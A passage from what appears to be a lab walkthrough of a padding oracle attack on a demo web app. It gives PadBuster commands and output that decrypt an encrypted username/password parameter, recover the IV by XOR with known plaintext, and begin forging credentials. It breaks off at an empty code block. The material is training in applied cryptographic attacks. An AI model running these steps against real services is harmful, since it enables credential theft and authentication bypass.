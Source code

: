 After running we input 2 to the request "Enter an ID that matches the error condition NOTE: The ID# marked with ** is recommended :".
Padbuster was able to recover two blocks of the plaintext message:
```bash
# Block 1
[+] Cipher Text (HEX): b8f1335522753d45174435c16b52dc2e
[+] Intermediate Bytes (HEX): 0a0b2bcd40ec8741c671cc45c25ae140
[+] Plain Text: ame=user&Passwor
# Block 2
[+] Cipher Text (HEX): 5bbd4363b9d91d4c9100beae6ce34e80
[+] Intermediate Bytes (HEX): dccc4030511450201f4c3dc9635ad426
[+] Plain Text: d=sesame
```
Padbuster was able to retrieve 2/3 of the whole plaintext message, but we are still missing the first 1/3. This is because the first part is encrypted using an IV which cannot be gathered by the padding oracle. Visiting the http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80 which tells us that the first part, which was not recovered, contains "ApplicationUsername". As such, the full translation:
```bash
6b664ef0359fe233e021ad36b12d8e32 -> ApplicationUsern
b8f1335522753d45174435c16b52dc2e -> ame=user&Passwor
5bbd4363b9d91d4c9100beae6ce34e80 -> d=sesame
```
Now, to retrieve the id, we run:
```bash
padbuster "http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32" "6b664ef0359fe233e021ad36b12d8e32" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e" -noiv
```
The reason for these arguments is the following:
- We use just the first block of the whole encrypted string - the one that was not decrypted
- Next, we specify 16 bytes as the block size and lowercase hex encoding
- -error tells the application what string to look for in the response page to treat it as the error (we could have identified that error message by requesting something like http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34eff and the response would indicate of the invalid padding)
- -noiv is used to get the intermediate value after decrypting the first block.

And we get the IV:
```bash
[+] Cipher Text (HEX): 6b664ef0359fe233e021ad36b12d8e32
[+] Intermediate Bytes (HEX): 221449095f050045505c5e671003460d
[+] Plain Text: "I      _EP\^gF
```
Now, time to retrieve the signing key.
To get the key, we need to XOR the hex representation of the ciphertext (Intermediate bytes - hex for "I _EP\^gF) with the hex representation of "ApplicationUsern", which is 0x4170706c69636174696f6e557365726e. We go to xor.pw and input:
```bash
Input 1: 4170706c69636174696f6e557365726e
Input 2: 221449095f050045505c5e671003460d
```
We get back 0x63643965366661313933303263663463, which translates to cd9e6fa19302cf4c in ASCII (coverted using https://www.rapidtables.com/convert/number/hex-to-ascii.html), which is the used signing key.
Now we can create arbitrary credential pairs.
To make the application receive "authorization" as the username and "bypass" as the password, we would provide similar arguments to PadBuster as before, like the ones set to obtain the encryption key. PadBuster's base will be the first block with the prefix and the same error indicator. The only addition is padding to the plaintext to close the "previous" argument when encrypting (we need data in the below format). Note that "=xyz" can be replaced with =anything& as we just want to "close" the first argument in the GET request. Otherwise, all the encrypted data would be understood by the application as the value of the previous parameter and would not be treated as username and password values:
```bash
```